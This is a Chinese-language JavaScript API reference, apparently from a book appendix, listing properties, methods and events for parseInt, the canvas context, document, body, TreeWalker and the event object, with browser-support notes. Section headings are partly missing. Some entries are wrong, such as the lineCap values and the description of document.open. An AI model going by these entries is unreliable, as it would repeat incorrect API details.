**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Opera 3.0+, Safari 1.0+

### 语法

// 大多数 JavaScript 引擎:
```javascript
var myNum = parseInt(numstring)
```

#### 基于 Gecko 的引擎:
```javascript
var myNum = parseInt(numstring[, radix])
```

### 描述

从表示数字的字符串中返回整数。

### 示例

```html
<script>
document.write(parseInt("F ", 16) + "<br /> "); // 15
document.write(parseInt("1 0") + "<br /> "); // 1
document.write(parseInt("ABCD ") + "<br /> "); // NaN
document.write(parseInt("25CC ") + "<br /> "); // 25
document.write(parseInt(Math.sqrt(-1))); // NaN
</script>
```


## 属性

- `fillStyle` -- 用于在填充颜色或模式的区域时，设置填充操作期间的画刷。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 字符串，读/写。
- `globalAlpha` -- 用于控制画布整体透明度的浮点值。范围在 0.0 到 1.0 之间。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 浮点数，读/写。
- `globalCompositeOperation` -- 控制画布在叠加于底层 HTML 内容之上的显示方式。有效值包括 `source-over`、`copy`、`lighter` 和 `darker`。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 字符串，读/写。
- `lineCap` -- 影响线条绘制。决定线端的外观（`butt`、`miter` 或 `round`）。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 字符串，读/写。
- `lineJoin` -- 决定线条如何相互连接。有效值包括 `bevel`、`miter` 或 `round`。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 字符串，读/写。
- `lineWidth` -- 决定画布坐标空间中的线条宽度。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 浮点数，读/写。
- `miterLimit` -- 用于控制线条连接方式的浮点值。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 浮点数，读/写。
- `shadowBlur` -- 决定阴影的宽度。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 整数，读/写。
- `shadowColor` -- 决定阴影的颜色。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 字符串，读/写。
- `shadowOffsetX` -- 决定阴影的水平偏移。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 整数，读/写。
- `shadowOffsetY` -- 决定阴影的垂直偏移。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 整数，读/写。
- `strokeStyle` -- 控制绘制画布时使用的描边样式。可以设置为 CSS 颜色、渐变色或模式。（支持: CH1+, FF1.5+, O8+, SF1+） *返回值：* 字符串，读/写。

## 方法

- `arc(x, y, radius, startAngle, endAngle, clockwise)` -- 绘制弧线。（支持: CH1+, FF1.5+, O8+, SF1+）
- `arcTo(x1, y1, x2, y2, radius)` -- 绘制一条到特定点的弧线。（支持: CH1+, FF1.5+, O8+, SF1+）
- `beginPath()` -- 开始一个新的路径段。以 `closePath()` 结束。（支持: CH1+, FF1.5+, O8+, SF1+）
- `bezierCurveTo(cp1x, cp1y, cp2x, cp2y, x, y)` -- 使用控制点绘制贝塞尔曲线。（支持: CH1+, FF1.5+, O8+, SF1+）
- `clearRect(x, y, width, height)` -- 用于擦除矩形。（支持: CH1+, FF1.5+, O8+, SF1+）
- `clip()` -- 根据当前路径和已存在的裁剪路径重新计算裁剪路径。（支持: CH1+, FF1.5+, O8+, SF1+）
- `closePath()` -- 结束由 `beginPath()` 开始的新路径段。（支持: CH1+, FF1.5+, O8+, SF1+）
- `createLinearGradient(x1, y1, x2, y2)` -- 用于创建线性填充渐变。（支持: CH1+, FF1.5+, O8+, SF1+）
- `createPattern(image, repetition)` -- 用于根据图像和重复模式（`repeat`、`repeat-x`、`repeat-y` 和 `no-repeat`）创建填充模式。（支持: CH1+, FF1.5+, O8+, SF1+）
- `createRadialGradient(x1, y1, radius1, x2, y2, radius2)` -- 用于根据中心坐标和半径创建径向填充渐变。（支持: CH1+, FF1.5+, O8+, SF1+）
- `drawImage(image, x, y[, width, height[, destX, destY, destWidth, destHeight]])` -- 在指定的坐标按指定的尺寸绘制图像。（支持: CH1+, FF1.5+, O8+, SF1+）
- `fill()` -- 填充当前路径内的区域。（支持: CH1+, FF1.5+, O8+, SF1+）
- `fillRect(x, y, width, height)` -- 填充矩形区域。（支持: CH1+, FF1.5+, O8+, SF1+）
- `getContext(contextID)` -- 用于从画布元素获取用于绘图的渲染上下文。（支持: CH1+, FF1.5+, O8+, SF1+）
- `lineTo(x, y)` -- 从当前位置到指定的坐标画线。（支持: CH1+, FF1.5+, O8+, SF1+）
- `moveTo(x, y)` -- 将当前描边位置移动到指定的坐标。（支持: CH1+, FF1.5+, O8+, SF1+）
- `quadraticCurveTo(cpx, cpy, x, y)` -- 向目标坐标绘制二次曲线。（支持: CH1+, FF1.5+, O8+, SF1+）
- `rect(x, y, width, height)` -- 向路径添加一个矩形。（支持: CH1+, FF1.5+, O8+, SF1+）
- `restore()` -- 从内存中恢复图形上下文。（支持: CH1+, FF1.5+, O8+, SF1+）
- `rotate(angle)` -- 按指定的弧度移动画布坐标平面。（支持: CH1+, FF1.5+, O8+, SF1+）
- `save()` -- 保存图形上下文，以后可以使用 `restore()` 获取。（支持: CH1+, FF1.5+, O8+, SF1+）
- `scale(x, y)` -- 改变图形上下文的比例。（支持: CH1+, FF1.5+, O8+, SF1+）
- `stroke()` -- 将当前路径渲染到画布上。（支持: CH1+, FF1.5+, O8+, SF1+）
- `strokeRect(x, y, width, height)` -- 在画布上渲染一个矩形。（支持: CH1+, FF1.5+, O8+, SF1+）
- `translate(x, y)` -- 按指定的偏移量移动画布坐标系。（支持: CH1+, FF1.5+, O8+, SF1+）

## 属性

- `activeElement` -- 获取父文档拥有焦点时具有焦点的对象。（支持: IE4+） *返回：* 对象引用，只读。
- `alinkColor` -- 返回或设置文档主体中活动链接的颜色。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，可读/写。
- `anchors[]` -- 返回文档中所有锚点的列表。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 元素数组，只读。
- `applets` -- 返回文档内 applet 的有序列表。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 对象数组，只读。
- `async` -- 与 `document.load` 使用，表示异步请求。（支持: FF1.5+） *返回：* 布尔值，可读/写。
- `baseURI` -- 字符串形式的基 URI。（支持: FF1+, NN7+） *返回：* 字符串，只读。
- `baseURIObject` -- 表示该节点基 URI 的对象。（支持: FF3+） *返回：* 对象，可读/写。
- `bgColor` -- 设置或获取指示对象后面背景色的值。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串。
- `body` -- 返回当前文档的 BODY 节点。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回：* 节点引用，可读/写。
- `characterSet` -- 返回文档正在使用的字符集。（支持: FF1+, NN6+） *返回：* 字符串，可读/写。
- `charset` -- 设置或获取用于编码对象的字符集。（支持: IE4+） *返回：* 字符串，可读/写。
- `compatMode` -- 表明文档是否以怪异模式（Quirks mode）或严格模式（Strict mode）渲染。（支持: FF1+, IE6+, NN7+） *返回：* 字符串，只读。
- `contentType` -- 从当前文档的 MIME 头中返回 Content-Type。（支持: FF1+, NN7+） *返回：* 字符串，只读。
- `cookie` -- 返回该文档的分号分隔的 cookie 列表，或设置单个 cookie。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，可读/写。
- `defaultCharset` -- 从当前区域语言设置获取默认字符集。（支持: IE4+） *返回：* 字符串，可读/写。
- `defaultView` -- 返回指向窗口对象的引用。（支持: FF1+, NN6+） *返回：* window 或 frame 对象，只读。
- `designMode` -- 获取并设置所见即所得的编辑能力。用于 iFrame。（支持: FF1+, IE5+, NN7+） *返回：* 字符串，可读/写。
- `doctype` -- 返回当前文档的文档类型定义 (DTD)。（支持: FF1+, NN6+） *返回：* DocumentType 对象引用，只读。
- `documentElement` -- 返回文档的直接子元素。对于 HTML 文档，这通常是 HTML 元素。（支持: CH1+, FF1+, IE5+, NN6+, O6+, SF1+） *返回：* DOM 节点，只读。
- `documentURI` -- 返回文档位置。（支持: FF1+, NN8+） *返回：* 字符串，只读。
- `documentURIObject` -- 在 Firefox 3 及以上版本中，返回代表文档 URI 的 nsIURI 对象。（支持: FF3+） *返回：* 对象，可读/写。
- `domain` -- 返回当前文档的域名。（支持: CH1+, FF1+, IE4+, NN2+, O6+, SF1+） *返回：* 字符串，可读/写。
- `domConfig` -- 应返回一个 DOMConfiguration 对象。（支持: FF1.5+） *返回：* 对象，只读。
- `embeds[]` -- 返回当前文档中嵌入的 OBJECT 列表。（支持: CH1+, FF1+, IE4+, NN3+, O6+, SF1+） *返回：* 元素数组，只读。
- `expando` -- 设置或获取指示是否可以在对象内创建任意变量的值。（支持: IE4+） *返回：* 布尔值，可读/写。
- `fgColor` -- 获取并设置当前文档的前景色颜色或文本颜色。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，可读/写。
- `fileCreatedDate` -- 获取文件创建日期。（支持: IE4+） *返回：* 字符串，只读。
- `fileModifiedDate` -- 获取文件最后修改日期。（支持: IE4+） *返回：* 字符串，只读。
- `fileSize` -- 获取文件大小。（支持: IE4+） *返回：* 整数，只读。
- `firstChild` -- 第一个直接子节点，如果该元素没有子节点则返回为 null。（支持: FF1+, NN8+） *返回：* DOM 节点，只读。
- `forms[]` -- 返回当前文档中的 FORM 元素列表。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回：* 元素数组，只读。
- `frames[]` -- 返回当前文档中的 FRAME 元素列表。（支持: IE4+） *返回：* 元素数组，只读。
- `height` -- 获取并设置当前文档的像素高度。（支持: FF1+, NN4+） *返回：* 整数，只读。
- `images[]` -- 返回当前文档中的图像列表。（支持: CH1+, FF1+, IE4+, O5+, SF1+） *返回：* 节点，只读。
- `implementation` -- 返回与文档关联的 DOM 实现。（支持: FF1+, NN6+, O5+, SF1+） *返回：* 对象，只读。
- `inputEncoding` -- 返回解析文档时使用的编码。（支持: FF1+） *返回：* 字符串，只读。
- `lastModified` -- 返回文件的最后修改日期。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，只读。
- `layers[]` -- 返回文档内的层列表。（支持: IE4+） *返回：* 数组，只读。
- `linkColor` -- 获取并设置活动链接的颜色。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，可读/写。
- `links[]` -- 返回文档中所有链接的列表。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 数组，只读。
- `location` -- 获取并设置当前文档的位置。（支持: FF1+, NN4+） *返回：* location 对象，只读。
- `media` -- 设置或获取媒体类型。（支持: IE5+） *返回：* 字符串，可读/写。
- `mimeType` -- 返回文档的 mime-type。（支持: FF5+） *返回：* 字符串，只读。
- `nameProp` -- 文档的标题。（支持: IE6+） *返回：* 字符串，只读。
- `namespaces[]` -- 当前文档中所有命名空间的数组。（支持: IE5+） *返回：* 数组，只读。
- `namespaceURI` -- 返回节点的命名空间 URI，如果未指定则返回 null。（支持: FF1.5+） *返回：* 字符串，只读。
- `nodePrincipal` -- 节点的安全主体。（支持: FF3+） *返回：* 节点，只读。
- `parentWindow` -- 获取容器窗口的引用。（支持: IE4+） *返回：* window 对象，只读。
- `plugins[]` -- 返回可用插件的列表。（支持: CH1+, FF1+, IE4+, NN4+, O6+, SF1+） *返回：* 数组，只读。
- `protocol` -- 设置或获取 URL 的协议部分。（支持: IE4+） *返回：* 字符串，可读/写。
- `referrer` -- 返回链接到此页面的 URI。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* 字符串，只读。
- `scripts[]` -- 页面上所有脚本的数组。（支持: IE4+） *返回：* 数组，只读。
- `security` -- 包含安全信息。（支持: IE5.5+） *返回：* 字符串，只读。
- `selection` -- 返回表示正文选择的对象，如果存在的话。（支持: IE4+） *返回：* 对象，只读。
- `strictErrorChecking` -- 如果强制执行错误检查则返回 true，否则返回 false。（支持: FF1.5+） *返回：* 字符串，只读。
- `styleSheets[]` -- 当前文档中的样式表列表。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 数组，只读。
- `title` -- 当前文档的标题。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* 字符串，可读/写。
- `URL` -- 返回包含当前文档 URL 的字符串。（支持: CH1+, FF1+, IE4+, NN3+, O6+, SF1+） *返回：* 字符串，只读。
- `URLEncoded` -- 将所有字母数字字符转换为转义字符的 document.URL。（支持: IE5.5+） *返回：* 字符串，只读。
- `vlinkColor` -- 获取并设置访问链接的颜色。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* 字符串，可读/写。
- `width` -- 返回当前文档的宽度。（支持: FF1+, NN4+） *返回：* 整数，只读。
- `xmlEncoding` -- 由 XML 声明确定的编码。（支持: FF1.5+） *返回：* 字符串，只读。
- `xmlStandalone` -- 如果 XML 声明指定文档是独立的，则返回 true，否则返回 false。（支持: FF1.5+） *返回：* 字符串，只读。
- `xmlVersion` -- 返回 XML 声明中指定的版本号，如果没有声明则返回 1.0。（支持: FF1.5+） *返回：* 字符串，只读。

## Methods

- `adoptNode(externalNode)` -- 从外部文档采纳节点。（支持: FF3+）
- `captureEvents(eventTypeList)` -- 注册窗口以捕获指定类型的所有事件。（支持: NN4）
- `close()` -- 关闭用于的文档流。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `createAttribute(attrName)` -- 创建一个新的属性节点并返回它。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回:* 属性对象引用。
- `createAttributeNS()` -- 在指定的命名空间创建一个新的属性节点并返回它。（支持: FF1+, NN7+） *返回:* 属性对象引用。
- `createCDATASection(data)` -- 创建一个新的 CDATA 节点并返回它。（支持: FF1+, IE5+, NN7+） *返回:* CDATA 段对象引用。
- `createComment(commentText)` -- 创建一个新的注释节点并返回它。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回:* 注释对象引用。
- `createDocumentFragment()` -- 创建一个新的文档碎片。（支持: CH1+, FF1+, IE6+, NN6+, O7+, SF1+） *返回:* 文档碎片。
- `createElement()` -- 使用给定的标签名创建一个新的元素。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回:* 元素对象引用。
- `createElementNS(namespaceURI, tagName)` -- 使用给定的标签名和命名空间 URI 创建新的元素。（支持: FF1+, NN6+） *返回:* 元素对象引用。
- `createEvent(eventType)` -- 创建一个事件。（支持: CH1+, FF1+, NN6+, SF1+） *返回:* 事件对象引用。
- `createEventObject([eventObject])` -- 生成一个事件对象，当您使用 `fireEvent` 方法时，用它来传递事件上下文信息。（支持: IE5.5+） *返回:* 事件对象。
- `createNSResolver()` -- 用于 XPath 中修改节点以便能够解析命名空间。（支持: FF1+, NN7+） *返回:* XPath 解析器对象。
- `createProcessingInstruction(target, data)` -- 创建一个新的处理指令元素并返回它。（支持: FF1+） *返回:* 处理指令号。
- `createRange()` -- 创建一个 `Range` 对象。（支持: FF1+, NN6+） *返回:* Range 对象引用。
- `createStyleSheet([URL[, index]])` -- 创建并返回一个 `styleSheet` 节点。该节点也会自动插入文档中。（支持: IE4+） *返回:* 样式表对象引用。
- `createTextNode()` -- 创建文本节点。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回:* 对象。
- `createTreeWalker()` -- 创建一个新的 TreeWalker 对象。（支持: FF1+, NN7+） *返回:* TreeWalker 对象引用。
- `elementFromPoint(x,y)` -- 返回指定坐标处可见的元素。（支持: FF3+, IE4+） *返回:* 元素对象引用。
- `evaluate(expression, contextNode, resolver, type, result)` -- 评估 XPath 表达式。（支持: FF1+, NN7+） *返回:* XPath 结果对象。
- `execCommand(commandName[, UIFlag[, param]])` -- 执行 Midas 注释（WYSIWYG）。（支持: CH1+, FF1+, IE4+, NN7+, O8+, SF1+） *返回:* 布尔值。
- `getElementById(elementID)` -- 返回指向标识元素（通过 ID 属性）的对象引用。（支持: CH1+, FF1+, IE5+, NN6+, O6+, SF1+） *返回:* DOM 节点。
- `getElementsByClassName(className)` -- 返回具有给定类名的元素列表。（支持: FF3+） *返回:* 引用数组。
- `getElementsByName(elementName)` -- 返回具有给定名称元素列表。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+） *返回:* 引用数组。
- `getElementsByTagName()` -- 根据指定的元素名获取一组对象。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回:* 元素数组。
- `getElementsByTagNameNS(tagName)` -- 从当前元素获取所有具有特定标签名和命名空间的后代元素。（支持: FF1+, NN7+） *返回:* 元素数组。
- `importNode(node, deep)` -- 返回来自外部文档的节点克隆。（支持: FF1+, NN7+） *返回:* DOM 节点。
- `load(URL)` -- 加载 XML 文档。（支持: FF1+, NN8+） *返回:* 对象。
- `loadOverlay(url, observer)` -- 动态加载 XUL 叠加层。仅在 Gecko 的 XUL 文档中有效。（支持: FF1.5+）
- `normalizeDocument()` -- 替换实体、归一文本节点等。（支持: FF1+, NN8+）
- `open([mimeType[, replace]])` -- 打开新窗口并加载指定 URL 的文档。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `queryCommandEnabled(commandName)` -- 如果 Midas 命令可以在当前范围内执行，则返回 true。（支持: FF1+, IE4+, NN7+） *返回:* 布尔值。
- `queryCommandIndeterm(commandName)` -- 如果 Midas 命令在当前范围内处于不确定状态，则返回 true。（支持: FF1+, IE4+, NN7+） *返回:* 布尔值。
- `queryCommandState()` -- 如果 Midas 命令已在当前范围内执行，则返回 true。（支持: FF1+, IE4+, NN7+） *返回:* 布尔值。
- `queryCommandValue(commandName)` -- 返回当前范围对应 Midas 命令的当前值。（支持: FF1+, IE4+, NN7+） *返回:* 动态。
- `querySelector(selectors)` -- 返回匹配指定组选择器的、且作为调用元素后代的第一个元素。（支持: FF3.5+） *返回:* DOM 节点。
- `querySelectorAll(selectors)` -- 返回所有匹配指定组选择器的、且作为调用元素后代的元素列表。（支持: FF3.5+） *返回:* 元素数组。
- `recalc([allFlag])` -- 导致动态属性之间的依赖重新计算。（支持: IE5+）
- `write()` -- 向文档写入文本。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 布尔值。
- `writeln()` -- 向文档写入一行文本。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回:* 布尔值。

## Events

- `onoffline` -- 返回 onoffline 事件的处理代码。（支持: FF3.5+）
- `ononline` -- 返回 ononline 事件的处理代码。（支持: FF3.5+）
- `onselectionchange` -- 返回 onselectionchange 事件（编辑模式下）的处理代码。（支持: IE5.5+）
- `onstop` -- 返回 onstop 事件（当用户点击浏览器中的停止按钮时）的处理代码。（支持: IE5+）

## body 对象引用

body 对象代表当前页面或文档的 `<body>` 或 `<frameset>` 节点。

### 属性

- `alink` -- （支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回：* 字符串，读/写。
- `background` -- 设置或获取对象中文本和图形背景平铺图片的 URL。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回：* 字符串，读/写。
- `bgColor` -- 设置或获取指示对象后面背景颜色的值。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回：* 字符串，读/写。
- `bgProperties` -- （支持: IE4+） *返回：* 字符串常量，读/写。
- `bottomMargin` -- （支持: IE4+） *返回：* 整数，读/写。
- `leftMargin` -- （支持: IE4+） *返回：* 整数，读/写。
- `link` -- （支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回：* 字符串，读/写。
- `noWrap` -- 设置或获取浏览器是否自动执行换行。（支持: IE4+） *返回：* 布尔值，读/写。
- `rightMargin` -- （支持: IE4+） *返回：* 整数，读/写。
- `scroll` -- 将窗口滚动到文档中的特定位置。（支持: IE4+） *返回：* 字符串常量，读/写。
- `scrollLeft` -- 获取或设置左侧滚动偏移。（支持: FF1+, IE4+, NN7+） *返回：* 整数，读/写。
- `scrollTop` -- 获取或设置顶部滚动偏移。（支持: FF1+, IE4+, NN7+） *返回：* 整数，读/写。
- `text` -- （支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回：* 字符串，读/写。
- `topMargin` -- （支持: IE4+） *返回：* 整数，读/写。
- `vLink` -- （支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回：* 字符串，读/写。

### 方法

- `createControlRange()` -- 为文本选择创建一个 `controlRange`。（支持: IE5+） *返回：* 数组。
- `createTextRange()` -- （支持: IE4+） *返回：* 对象。
- `doScroll([scrollAction])` -- 模拟对滚动条组件的点击。（支持: IE5+）

### 事件

- `onafterprint` -- 窗口打印后。（支持: IE4+）
- `onbeforeprint` -- 窗口打印前。（支持: IE4+）
- `onscroll` -- 返回 `onscroll` 事件的事件处理代码。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+）

# TreeWalker 对象

TreeWalker 对象持有 DOM 的结构以及在该结构中的某个位置。你可以使用 `document.createTreeWalker()` 方法创建一个新的 TreeWalker。

## 属性

- `currentNode` -- 指向当前节点的引用。（支持: FF1+, NN7+） *返回：* DOM Node，读/写。
- `expandEntityReference` -- 传递给 `createTreeWalker` 的参数值。（支持: FF1+, NN7+） *返回：* DOM Node，只读。
- `filter` -- 传递给 `createTreeWalker` 的参数值。（支持: FF1+, NN7+） *返回：* 字符串，只读。
- `root` -- 传递给 `createTreeWalker` 的参数值。（支持: FF1+, NN7+） *返回：* DOM Node，只读。
- `whatToShow` -- 传递给 `createTreeWalker` 的参数值。（支持: FF1+, NN7+） *返回：* 字符串，只读。

### 方法

- `firstChild()` -- 第一个直接子节点，如果该元素没有子节点则返回 null。（支持: FF1+, NN7+） *返回：* DOM Node。
- `lastChild()` -- 最后一个直接子节点，如果该元素没有子节点则返回 null。（支持: FF1+, NN7+） *返回：* DOM Node。
- `nextNode()` -- 在 TreeWalker 对象当前包含的节点列表中向后导航。（支持: FF1+, NN7+） *返回：* DOM Node。
- `nextSibling()` -- 树中紧邻给定节点之后的节点，如果没有兄弟节点则返回 null。（支持: FF1+, NN7+） *返回：* DOM Node。
- `parentNode()` -- 此节点的父元素，如果该节点不在 DOM 文档内部则返回 null。（支持: FF1+, NN7+） *返回：* DOM Node。
- `previousNode()` -- 在 TreeWalker 对象当前包含的节点列表中向前导航。（支持: FF1+, NN7+） *返回：* DOM Node。
- `previousSibling()` -- 树中紧邻给定节点之前的节点，如果没有兄弟节点则返回 null。（支持: FF1+, NN7+） *返回：* DOM Node。

# 事件对象引用

你通常会在事件处理程序触发时遇到事件实例（Event instances）。当这种情况发生时，会传递一个包含事件对象的单个参数。在 Internet Explorer 中，也可以通过 `window.event` 访问。不同浏览器之间的事件属性差异很大。请阅读第 12 章以了解如何使用事件。

## 属性

- `altKey` -- 返回一个布尔值，表示事件发生期间是否按下 `<alt>` 键。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 布尔，只读。
- `altLeft` -- 获取指示左 ALT 键状态的值。（支持: IE5.5+） *返回值：* 布尔，只读。
- `behaviorCookie` -- 获取一个识别触发事件的渲染行为的 cookie。（支持: IE6+） *返回值：* 整数，只读。
- `behaviorPart` -- 获取一个识别触发事件的渲染行为部分的值。（支持: IE6+） *返回值：* 布尔，只读。
- `bookmarks` -- 返回一个与当前事件影响的行相关的 Microsoft ActiveX 数据对象 (ADO) 书签集合。（支持: IE4+） *返回值：* 数组，只读。
- `boundElements` -- 元素引用数组，用于绑定到当前事件触及相同数据集的元素。（支持： IE5+） *返回值：* 数组，只读。
- `bubbles` -- 返回一个布尔值，表示事件是否会向上 DOM 冒泡。（支持: CH1+, FF1+, NN6+, O5+, SF1+） *返回值：* 布尔，只读。
- `button` -- 指示哪个鼠标按钮引起了事件。0 表示左键，1 表示中间键，2 表示右键。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 整数，只读。
- `cancelable` -- 返回一个布尔值，表示事件是否可以被取消。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 布尔，可读/写。
- `cancelBubble` -- 返回一个布尔值，表示事件的向上冒泡是否已取消。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 布尔，可读/写。
- `charCode` -- 返回在按键事件中被按下的字符键的 Unicode 值。（支持: CH1+, FF1+, NN6+, O5+, SF1+） *返回值：* 整数，只读。
- `clientX` -- 返回事件的水平位置。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 整数，可读/写。
- `clientY` -- 返回事件的垂直位置。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 整数，可读/写。
- `ctrlKey` -- 返回一个布尔值，表示事件发生期间是否按下 `<ctrl>` 键。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 布尔，只读。
- `ctrlLeft` -- 返回一个布尔值，表示事件发生期间是否按了左侧的 `<ctrl>` 键。（支持: IE5.5+） *返回值：* 布尔，只读。
- `currentTarget` -- 返回当前注册事件目标的引用。（支持: CH1+, FF1+, NN6+, O5+, SF1+） *返回值：* DOM 节点，只读。
- `dataFld` -- 设置或检索受 `oncellchange` 事件影响的数据列。（支持: IE5+） *返回值：* 字符串，只读。
- `dataTransfer` -- 用于拖放操作的对象，用于控制被传输的数据和光标的外观。（支持: FF1+, IE5+, SF2+） *返回值：* 对象，只读。
- `detail` -- 返回事件的详细信息，取决于事件类型。（支持: CH1+, FF1+, NN6+, O5+, SF1+） *返回值：* 整数，只读。
- `eventPhase` -- 用于指示当前正在评估事件流的哪一阶段。（支持: CH1+, FF1+, NN5+, O5+, SF1+） *返回值：* 整数，只读。
- `explicitOriginalTarget` -- 事件的明确原始目标。（支持: FF1+, NN6+） *返回值：* DOM 节点，只读。
- `fromElement` -- 鼠标光标从哪里滚入。（支持: IE4+） *返回值：* DOM 节点，只读。
- `isChar` -- 返回一个布尔值，表示事件是否产生了键字符。（支持: CH1+, FF1+, NN6+, O5+, SF1+） *返回值：* 布尔，只读。
- `keyCode` -- 返回按键事件中非字符键或其他任何类型键盘事件中任何键的 Unicode 值。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回值：* 整数，只读。
- `layerX` -- 返回事件相对于当前层的水平坐标。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回值：* 整数，只读。
- `layerY` -- 返回事件相对于当前层的垂直坐标。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回值：* 整数，只读。
- `metaKey` -- 返回一个布尔值，表示事件发生期间是否按了 meta 键。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 布尔，只读。
- `nextPage` -- 显示表格绑定的数据集中的下一页记录。（支持: IE5.5+） *返回值：* 字符串，只读。
- `offsetX` -- 设置或检索相对于触发对象的鼠标光标水平坐标。（支持: FF1+, IE5+, SF2+） *返回值：* 整数，可读/写。
- `offsetY` -- 设置或检索相对于触发对象的鼠标光标垂直坐标。（支持: FF1+, IE5+, SF2+） *返回值：* 整数，可读/写。
- `originalTarget` -- 事件的原始目标。（支持: FF1+, NN6+） *返回值：* DOM 节点，只读。
- `pageX` -- 返回相对于页面的水平坐标。（支持: CH1+, FF1+, NN6+, O5+, SF1+） *返回值：* 整数，只读。
- `pageY` -- 返回相对于页面的垂直坐标。（支持: CH1+, FF1+, NN6+, O5+, SF1+） *返回值：* 整数，只读。
- `propertyName` -- 设置或检索事件的名称。（支持: IE4+） *返回值：* 字符串，只读。
- `qualifier` -- 返回事件的限定符。（支持: CH1+, FF1+, IE4+, NN6+, O5+, SF1+） *返回值：* 字符串，只读。
- `reason` -- 事件的结果。（支持: FF1+, NN6+） *返回值：* 整数，只读。
- `recordset` -- 引起事件的数据集。（支持: IE4+） *返回值：* 整数，只读。
- `relatedTarget` -- 事件的次要目标。（支持: FF1+, NN6+） *返回值：* DOM 节点，只读。
- `repeat` -- 返回是否正在重复按。（支持: IE5+） *返回值：* 布尔，只读。
- `returnValue` -- 要返回给函数的返回值。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 任意。
- `saveType` -- 事件类型。（支持: IE5+） *返回值：* 字符串，只读。
- `screenX` -- 事件在屏幕上的水平位置。（支持: IE4+） *返回值：* 整数，只读。
- `screenY` -- 事件在屏幕上的垂直位置。（支持: CH1+, FF1+, NN6+, O5+, SF1+） *返回值：* 整数，只读。
- `shiftKey` -- 返回一个布尔值，表示事件发生期间是否按下 `<shift>` 键。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回值：* 布尔，只读。
- `shiftLeft` -- 获取左侧 `<shift>` 键的状态。（支持: IE5.5+） *返回值：* 布尔，只读。
- `srcElement` -- 触发事件的对象。（支持: IE4+） *返回值：* DOM 节点，只读。
- `srcFilter` -- 设置或检索引起 `filterchange` 事件的过滤器。（支持: IE4+） *返回值：* 字符串，只读。
- `srcUrn` -- 获取触发行为的统一资源名称 (URN)。（支持: IE5+） *返回值：* 字符串，只读。
- `target` -- 返回原始派遣的目标。（支持: CH1+, FF1+, NN6+, O5+, SF1+） *返回值：* DOM 节点，只读。
- `timeStamp` -- 返回事件创建的时间。（支持: CH1+, FF1+, NN6+, O6+, SF1+） *返回值：* 整数，只读。
- `toElement` -- 设置或检索用户移动鼠标光标的目标对象。（支持: IE4+） *返回值：* DOM 节点，只读。
- `type` -- 返回事件名称（不区分大小写）。（支持: CH1+, FF1+, IE4+, NN4+, O5+, SF1+） *返回值：* 字符串，只读。
- `view` -- 标识生成事件的 AbstractView 属性。（支持: CH1+, FF1+, NN6+, O6+, SF1+） *返回值：* Window 对象引用，只读。
